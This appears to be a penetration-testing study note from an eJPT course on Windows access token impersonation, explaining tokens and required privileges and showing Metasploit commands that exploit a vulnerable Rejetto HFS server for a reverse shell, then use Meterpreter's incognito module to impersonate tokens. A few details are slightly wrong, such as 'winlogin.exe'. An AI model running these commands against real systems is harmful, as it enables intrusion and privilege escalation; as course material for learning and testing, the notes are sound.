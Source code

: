 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/System - Host Based Attacks/Windows Privilege Escalation/Windows Privilege Escalation]]"
---
```


# Access Token Impersonation

## Windows Access Tokens

- Core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS)
- a WAT is responsible for identifying and describing the security context of a process or thread running on a system
- Generated by the ``winlogin.exe`` process every time a user authenticates
- Includes the identity and privileges of the user account associated with the thread or process
- The token is then attached to every child processes created by a user (`userinit.exe`)

- Security levels are assigned to token
	- **Impersonate**: created as a direct result of a non-interactive login
		- Can only be used on the local system
	- **Delegate**: typically created through an interactive login
		- Can be used on any system

## Windows Privileges

- Impersonating access tokens to elevate privileges on a system will depend on the target account privileges
- Required privileges for successful attack:
	- `SeAssignPrimaryToken`
		- Allows a user to impersonate tokens
	- `SeCreateToken`
		- allows to create an arbitrary token with admin privileges
	- `SeImpersonatePrivilege`
		- Allows to create a process under the security context of another user

## Incognito Module

- Meterpreter module to impersonate user tokens
- Used to display a list of available token to impersonate

## Demonstration

Target runs a vulnerable `rejetto` version

```bash
> use exploit/windows/http/rejetto_hfs_exec
> set LHOST <my_ip>
> set LPORT
> set RHOSTS $TRG
```

```bash
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "<token>"
meterpreter > pgrep explorer
<port>
meterpreter > migrate <port>
meterpreter > getprivs
```

If no Delegation or Impersonation tokens are available the potato technique will need to be used.

It will generate an administrator token and let you impersonate it.
